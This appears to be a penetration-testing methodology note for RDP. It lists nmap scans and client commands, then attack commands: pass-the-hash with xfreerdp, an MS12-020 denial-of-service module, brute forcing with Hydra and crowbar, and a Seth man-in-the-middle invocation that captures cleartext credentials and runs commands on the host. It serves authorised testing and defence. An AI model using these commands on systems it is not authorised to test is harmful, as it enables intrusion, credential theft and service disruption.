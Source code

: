# RDP - Methodology

### Overview

Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft,
which provides a user with a graphical interface to connect to another computer
over a network connection.

The user employs RDP client software for this purpose, while the other computer
must run RDP server software.

RDP authentication mechanism rely on Windows local or Active Directory domain
credentials.

RDP may uses Network Level Authentication (NLA, RDP 6.0 and supported initially
in Windows Vista / Windows Server 2008) which requires the connecting user to
authenticate before a session is established with the server and prevents the
use of resources on the server from the load of the graphical login screen.

### Network scan

Nmap can be used to scan the network for RDP services:

```
nmap -v -p 3389 -A -oA nmap_rdp <RANGE/CIDR>
```

### RDP clients

###### Windows

On Windows, the default Microsoft Remote Desktop application
("Connexion Bureau à distance") or the Remote Desktop Manager third party
application can be used as RDP clients.

The Remote Desktop Manager allows for the configuration and storing of
multiples RDP connection (host and authentication information). A Free Edition
is available as well as a commercial grade Enterprise Edition.

###### Linux

On Linux, rdesktop or Remmina (GUI) can be used as RDP clients.

```
rdesktop [options] server[:port]
Remmina
```

### Pass-the-hash

FreeRDP can be used to authenticate using the hash through RDP against hosts
using the Restricted Admin mode feature.

```
xfreerdp /u:<USERNAME> /d:<DOMAIN> /pth:<HASH> /v:<HOST | IP>
```

### Known vulnerabilities

Nmap and metasploit can be used to check for the following exploits:

```
# CVE-2012-0002 / MS12-020
nmap -v -p 3389 --script rdp-vuln-ms12-020 <HOST>
msf> use auxiliary/scanner/rdp/ms12_020_check
```

###### CVE-2012-0002 / MS12-020

The CVE-2012-0002 / MS12-020 vulnerability can be used both to realize a Denial
Of Service and remotely execute code on the target.

A metasploit module is available to realize a DoS of the target:

```
msf> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

As of december 2018, no public proof-of-concept code that results in remote
code execution is available.

### Authentication brute force

The local or Active Directory domain account lockout policies apply
(depending on the type of authentication tried) when connecting with RDP.
Vertical brute forcing is thus not possible.

However, horizontal RDP brute forcing can be used for lateral movement once
an account has been compromised. Indeed, the compromised account may not be an
local Administrator (and thus can not connect through PsExec like tool) but can
be a member of the Remote Desktop Users group.

Patator, Hydra or the crowbar Python Script can be used to brute force RDP
access. Patator and crowbar both support NLA (as of December 2018, Patator does
not support no NLA RDP brute force).

```
python crowbar.py -b rdp (-u <USERNAME | <DOMAIN\\USERNAME> | -U USERNAME_FILE) (-c <PASSWORD> | -C <PASSWORDS_LIST) -s <CIDR>

hydra -t 1 -V -l <USERNAME> (-p <PASSWORD> | -P <PASSWORDS_LIST) rdp://<IP | HOST>
```

### Man-in-the-middle attack

Seth is a tool written in Python and Bash to MitM RDP connections that
attempts to downgrade the connection in order to extract clear text credentials.

Seth can be used regardless if Network Level Authentication (NLA) is enabled
on the RDP host.

Seth will notably:
  - Spoof ARP replies to redirect traffic from the victim host to the attacker
  machine and then to the target RDP server.
  - Configure an iptable rule to reject SYN packet to prevent direct RDP
  authentication.
  - Clone the SSL certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade Kerberos authentication to NTLM.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

Usage:

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking

If Administrator / SYSTEM privileges could be obtained on a host, RDP sessions
of others users can be hijacked. This could be used to access the
host as the hijacked user through a GUI interface with out knowing its password.  

To hijack RDP session refer to the [Windows] Post Exploitation note.
